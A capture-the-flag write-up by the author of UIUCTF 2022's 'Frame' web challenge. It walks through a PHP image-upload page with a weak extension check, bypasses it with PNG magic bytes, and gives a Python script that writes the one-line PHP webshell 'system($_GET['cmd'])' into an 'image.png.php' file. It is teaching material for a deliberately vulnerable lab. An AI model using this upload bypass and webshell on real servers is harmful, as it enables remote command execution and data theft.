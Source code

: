 # "Frame" Solution Writeup

"Frame" was a beginner web challenge I helped write for UIUCTF 2022. This challenge was intended to teach the user about file upload vulnerabilities and file signatures (sometimes called "magic bytes").

At the time of creation, UIUCTF didn't have a policy of releasing solution documents after our writeup competition deadline had passed, so this challenge went without an official writeup for a while. With a bit more experience under my belt, I figured I'd turn this into a unique opportunity to look back at my work and explain the challenge with fresh eyes.

> This writeup is a retrospective of a challenge I helped create for UIUCTF 2022. The original challenge and its files can be found in the [UIUCTF 2022 Public Release Repository](https://github.com/sigpwny/UIUCTF-2022-Public/tree/main/web/frame).

## Planning

First, the user sees a challenge description:

```
We made it easy to add a frame to your digital art!

https://frame-web.chal.uiuc.tf/
```

We additionally provided the user a handout, which besides the flag, consists of the `challenge` folder in our [public release](https://github.com/sigpwny/UIUCTF-2022-Public/tree/main/web/frame/challenge).

### File Upload Footer Check

Looking at the source code provided, we can see that the website is meant to take the input of an image file and add an ornate frame around the user's picture:

```php
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

This is the only input present, so that narrows down the focus to file upload vulnerabilities right away.

### File Upload Header Check

If we look closer, we can see how the website checks that the image is actually a picture file:

```php
$allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
$filename = $_FILES["fileToUpload"]["name"];
$tmpname = $_FILES["fileToUpload"]["tmp_name"];
$target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

$has_extension = false;
foreach ($allowed_extensions as $extension) {
    if (strpos(strtolower($filename), $extension) !== false) {
    $has_extension = true;
    }
}
```

Of note is the fact that we check that the filename includes the correct exxtension, but not necessarily the location in the filename of that extension. You could then, for example, validly submit `image.png.php`. So we found the main vulnerability, but there's still one more security check we need to look at:

```php
if (getimagesize($tmpname) && $has_extension)
...
else {
    echo "Your picture is not a picture and could not be framed.";
```

The function `getimagesize` in PHP outputs the size of a file in the form of an array. The official documentation can be found [at this link](https://www.php.net/manual/en/function.getimagesize.php) if you want more details, but I'll highlight the relevant details for this challenge. In particular, while this function does properly parse image files, it does not make full security checks and warns to use a more proper image check. With that in mind, we just need to make sure that the file parses as an "image".

If you're unfamiliar with how files are parsed, generally a function like this would figure out the intended contents by looking at the file signature. This is a string of bytes that all files of a particular type have (for example, zip files might use the byes `50 4B 03 04`).

So what we can do is include the file signature of a valid png file, which would include the bytes `89 50 4E 47 0D 0A 1A 0A`, and insert that at the start of the file. If you want to experiment with other file signatures, the [Wikipedia article](https://en.wikipedia.org/wiki/List_of_file_signatures) is honestly a great resource.

### Determining the Goal

In the Dockerfile, we can see where the flag was placed:

```dockerfile
COPY flag /
```

So if we get a webshell for the file, we should be able to read the flag from the root file. There don't appear to be any major limitations on this beyond file size, so we can just use a classic webshell like `<?php system($_GET['cmd']);?>`, which allows the attacker to add commands as a parameter to website queries, in this case on the page that the "picture" is uploaded to. This might look like `

## Putting It Together

Now that we know what we need to do to make the file valid, we can craft an exploit. For ease of understanding, I wrote a script to create the file that will result in a valid submission to a webshell:

```py
# This script creates a file named "image.png.php" that is read as a PNG file, but is really a PHP file.

with open("image.png.php", 'wb') as f:
    # This is a PNG header, ‰PNG␍␊␚␊
    f.write(b'\x89PNG\r\n\x1a\n')
    
    # Our payload can be any PHP code that helps us read the flag file
    f.write(b'<?php system($_GET['cmd']);?>')
```
Once you upload the webshell, you'll be able to access the filesystem and so long as you're familiar with basic bash commands, you'll be able to find the flag.

## Wrap-up

This was the first challenge I ever helped write, so it holds a special place in my heart. While being able to contribute to a pretty well known CTF as a security beginner is certainly an uncommon situation to be in, I think that folks can learn a ton about computer security from helping write some CTF challenges and teaching others how to hack has really solidified my skills over the years. I certainly was stepping out of my comfort zone with this challenge at the time and it was pretty frustrating, but looking back I wouldn't have had it any other way.

For those of you new to the CTF space, I hope this writeup was as helpful for you to read as it was for me to reflect back on.
